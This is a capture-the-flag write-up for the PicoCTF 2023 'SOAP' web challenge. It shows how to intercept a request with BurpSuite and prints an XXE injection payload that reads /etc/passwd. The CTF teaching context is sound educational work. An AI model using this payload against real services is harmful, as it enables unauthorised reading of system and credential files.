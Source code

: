 PicoCTF 2023 Web SOAP 100 Points

Upon launching your instance, you get a link to a website, and a hint tells you XML external entity Injection (XXE).

To complete this exploit, you'll need to intercept and modify the requests which are sent to the server. I used BurpSuite to do this.

Turning on intercept and loading the page, you can examine each request until you get one that has XML in it.

From clicking around, you can find that clicking on the details button under one of the boxes will send a request similar to the following:
```
POST /data HTTP/1.1
Host: saturn.picoctf.net:52214
Content-Length: 61
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:52214
Referer: http://saturn.picoctf.net:52214/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?><data><ID>1</ID></data>
```
Where the number in the <ID> tag corresponds to which box you click on.

Now is where we use XXE injection. Intercept the request which is sent when you click on the details button of one of the boxes.

Instead of requesting ID 1, we're going to request an External Entity which we define. That way, the server will return whatever we ask it for. Here's what the modified XML looks like:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data><ID>&xxe;</ID></data>
```

Forwarding this modified request will display the etc/password file, which contains the flag.

[Helpful source for XXE](https://portswigger.net/web-security/xxe).